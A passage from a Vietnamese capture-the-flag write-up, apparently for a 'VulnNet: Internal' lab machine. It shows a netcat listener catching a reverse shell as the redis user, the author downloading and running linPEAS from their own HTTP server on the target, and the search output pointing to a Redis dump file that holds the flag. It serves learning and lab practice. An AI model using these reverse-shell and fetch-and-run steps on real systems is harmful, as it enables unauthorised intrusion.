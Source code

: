 Quay trở lại listener

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.116.142] 53768
id
uid=112(redis) gid=123(redis) groups=123(redis)
```

## User flag

Để đỡ mất thời gian thì tôi quyết định tải [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) lên machine.

Tạo local http server ở thư mục chứa file `linpeas.sh`

```python
┌──(kali㉿kali)-[~]
└─$ python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Thư mục */tmp* có toàn quyền thực thi nên tôi sẽ tải file lên thư mục này, thay đổi quyền và chạy nó

```python
redis@vulnnet-internal:/$ cd tmp
cd tmp
redis@vulnnet-internal:/tmp$ wget http://10.6.0.191:9001/linpeas.sh
wget http://10.6.0.191:9001/linpeas.sh
--2022-11-23 09:04:33--  http://10.6.0.191:9001/linpeas.sh
Connecting to 10.6.0.191:9001... 
connected.
HTTP request sent, awaiting response... 
200 OK
Length: 827827 (808K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 808.42K   355KB/s    in 2.3s    

2022-11-23 09:04:36 (355 KB/s) - 'linpeas.sh' saved [827827/827827]

redis@vulnnet-internal:/tmp$ 
redis@vulnnet-internal:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
redis@vulnnet-internal:/tmp$ ./linpeas.sh
```

Quay lại 1 chút thông tin về máy này thì ở phần hint của flag thứ 2 chỉ ra rằng flag nằm trong 1 file db. Sau khi *linpeas* chạy xong thì tôi để ý thấy có 1 file rdb bên trong *redis*

```python
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                            
  Group redis:                                                                                                                                                                               
/tmp/linpeas.sh                                                                                                                                                                              
/run/redis/redis-server.pid
/var/log/redis/redis-server.log.1.gz
/var/log/redis/redis-server.log
/var/lib/redis/dump.rdb
```
